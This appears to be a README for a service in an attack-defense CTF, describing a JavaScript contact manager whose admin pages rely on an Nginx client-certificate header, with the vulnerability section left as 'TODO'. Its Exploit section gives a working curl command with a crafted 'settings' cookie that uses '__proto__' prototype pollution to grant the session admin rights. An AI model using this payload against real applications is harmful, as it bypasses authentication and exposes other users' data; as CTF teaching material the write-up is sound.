





# pure

## Service Description
`pure` is a service to create/edit contacts. It is written in JavaScript and uses MongoDB as a data storage and Nginx as a reverse proxy:



The user interface allows to:

1. Register a new user

   

2. Create a contact
   

3. Change theme to dark mode
   

Also there is an admin interface that allows to view contacts of all users:


The access to the admin pages is protected using client certificate authentication. This protection is implemented with Nginx:
```
server {
    ...
    ssl_client_certificate /etc/ssl/certs/ca.crt;
    ssl_verify_client optional;

    location / {
        ...
        proxy_set_header VERIFIED $ssl_client_verify;
        ...
    }
}
```

Nginx checks the client certificate and set `VERIFIED` HTTP header. The application uses this header to set `req.session.isAdmin` property:
```
if (req.headers && req.headers['verified'] == 'SUCCESS' && req.session) {
    req.session.isAdmin = true;
} else {
    if (req.session && req.session.isAdmin) {
        delete req.session.isAdmin;
    }
}
```

## Vulnerability Description

TODO

## Exploit

To exploit the vulnerability an attacker could send specially crafted `settings` cookie to the application:
```
curl -k https://<HOST> --cookie 'connect.sid=<SESSION COOKIE>' --cookie 'settings=j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]'
```

You can find an exploit at [/sploits/pure/sploit.py](../../sploits/pure/sploit.py).
